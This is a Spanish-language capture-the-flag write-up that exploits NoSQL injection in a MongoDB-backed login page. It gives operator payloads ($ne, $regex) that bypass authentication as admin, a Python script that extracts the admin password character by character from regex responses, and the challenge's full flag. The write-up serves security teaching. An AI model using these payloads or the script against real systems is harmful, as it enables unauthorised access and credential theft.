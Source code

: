 # secret-meeting

Lo primero que hago es montar el reto en local, y echar un primer vistazo a los archivos. Hay dos contenedores interconectados, uno es la pagina web, y el otro es una base de datos en MongoDB (NoSQL). Veo que la pagina web esta montada en el archivo `server.js` donde se están introduciendo unos usuarios a la base de datos, y carga el HTML de la misma.Si interceptamos la peticion de login con BurpSuit, vemos la siguiente información.

![image.png](image/image_01.png)

Pienso que al ser MongoDB, tiene mas velocidad a la hora de hacer consultas, sin embargo no es tan seguro como MySQL, por lo que podremos intentar hacer alguna inyección de NoSQL. Algunos comandos que podemos usar son:

- `[$ne]` → not equal
- `[$where]` → donde
- `[$regex]` → equal
- `[eq]` → equal

No hay funciones que me pueda mostrar la contraseña del usuario administrador. Lo que si podemos ver es que si hacemos una petición para que el usuario sea el administrador y ponemos que la contraseña sea distinta de cualquier cosa nos podremos autenticar como administrador. Esta sería la querry que podemos hacer:

`username[$eq]=admin&password[$ne]=1`

![image.png](image/image_02.png)

Vemos que se nos a autenticado, aunque no conseguimos nada respecto a la flag.

Debemos intentar encontrar un comando que nos indique si la flag que vamos introduciendo es correcta. Otra manera de autenticarnos de manera exitosa es mediante el comando `[$regex]` de la siguiente manera:

`username=admin&password[$regex]=.*`

![Screenshot 2024-11-25 at 22.57.41.png](image/image_03.png)

Esta querry indica mediante el `.*` para indicar cualquier contraseña asociada al parametro `password`.

Sabiendo que la flag empieza por `URJC{` podemos introducir eso como parametro para `password[$regex]` seguido de `.*` para indicar que hay más caracteres. 

- querry: `username=admin&password[$regex]=URJC{.*`

Y el codigo de la respuesta es `200 OK`.

Se me ocurre hacer fuerza bruta letra por letra hasta conseguir que acepte un `}` y entonces sabré cual es la contraseña de administrador.

Podemos hacer un script sencillo con python que haga las peticiones por nosotros, y dependiendo de cual sea el codigo de la respuesta, guarde la letra empleada o la descarte.

```python
import requests
import string

url = "http://localhost:12103/login"  # Reemplaza con la URL real
password = "URJC{"
characters = "}{abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_."
#characters = list(string.ascii_letters) + list(string.digits) + list(string.punctuation) + list(string.whitespace)

while True:
    found = False
    for char in characters:
        test_password = f"^{password}{char}.*"
        data = {
            "username": "admin",
            "password[$regex]": test_password  # Ajuste para que use parámetros codificados
        }
        # Enviar datos como x-www-form-urlencoded
        response = requests.post(url, data=data)

        print(f"Probing with: {test_password}")
        print(f"Status code: {response.status_code}")

        if response.status_code == 200:  # Cambia esto según cómo responde tu servidor
            password += char
            print(f"[+] Password so far: {password}")
            found = True
            break

    if not found:  # Si no encontramos más caracter válidos, la contraseña está completa
        print(f"[!] Password completo: {password}")
        break
```

Tras ejecutarlo, obtenemos lo siguiente:

![me](https://github.com/darkxvortex/TH_practica_2/blob/main/secret_meeting/solve/image/vid_01.gif)

Está claro que al hacerlo de manera local, no encontramos la flag real del reto. Modificando las lineas del script, en las cuales realiza la conexión a la web de login, ponemos la proporcionada por el CTFd, y tras un rato, nos devuelve la siguiente flag:

`URJC{4ut0m4t1z4l0_0_sufr3_l4s_c0ns3cu3nc14s`

Si nos fijamos en las flags de otros retos, vemos que todos sigue una misma estructura: `URJC{phrase_token}`.

El token, es un código único, el cual es el que nos falta en este reto, pues una vez tenemos la frase, vendría un guión bajo, seguido del token. Si con burbsuit intentamos hacer esta petición de login: `username[$eq]=admin&password[$regex]=URJC{4ut0m4t1z4l0_0_sufr3_l4s_c0ns3cu3nc14s_.*` 

La página web nos devuelve el código de estado `401 Unauthorized`.

El problema viene dado porque ya no puede continuar comprobando. En este punto, ninguna letra, ni minuscula ni ningun número da una petición `200 OK`.

Horas después me di cuenta que si que había un caracter que no habia comprobado: el punto `.`. Por lo que tras ejecutar el script de nuevo con el punto incluido al final, obtenemos la contraseña del usuario `admin`:
`URJC{4ut0m4t1z4l0_0_sufr3_l4s_c0ns3cu3nc14s.3n_s3r10.N0_l0_h4ga5_A_m4n0.3n_un_lug4r_d3_j4ck3rl4nd1a_cuyo_n0mbre_NO_t3ng0_3n_c4che.v1vi4_un_ju4k3rit0_d3_b0ton_g0rdO}`
